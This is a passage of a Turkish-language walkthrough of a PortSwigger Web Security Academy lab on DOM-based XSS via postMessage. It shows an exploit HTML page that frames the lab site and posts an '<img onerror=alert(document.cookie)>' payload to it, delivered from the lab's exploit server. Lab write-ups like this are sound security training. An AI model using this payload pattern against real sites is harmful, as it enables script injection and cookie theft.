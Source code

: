 ```
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/"
    </script>
</html>
```

Bu yapı sayesinde XSS oluştuğunu artık görebiliriz.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-11.png)

Artık bu kısımdan sonra bizden isteneni yapalım. Oluşturduğumuz HTML sayfasının içeriğini PortSigger Academy Lab sayfasında exploit server ile çalıştırabiliriz. Öncelikle bu kısımdan exploit server’a gitmemiz gerekmektedir.

![Untitled](0x09-770e9a14727f44d080ea40a453968369/Untitled-12.png)

Bu sayfaya geldikten sonra da hazırladığımız HTML sayfasını hedef kurban sisteme gönderebiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            target.contentWindow.postMessage(
                            "<img src=x onerror=alert(document.cookie)>",'*');
        });
        target.src=
        "https://0add005f042c0f178189085900c9006b.web-security-academy.net/";
    </script>
</html>
```
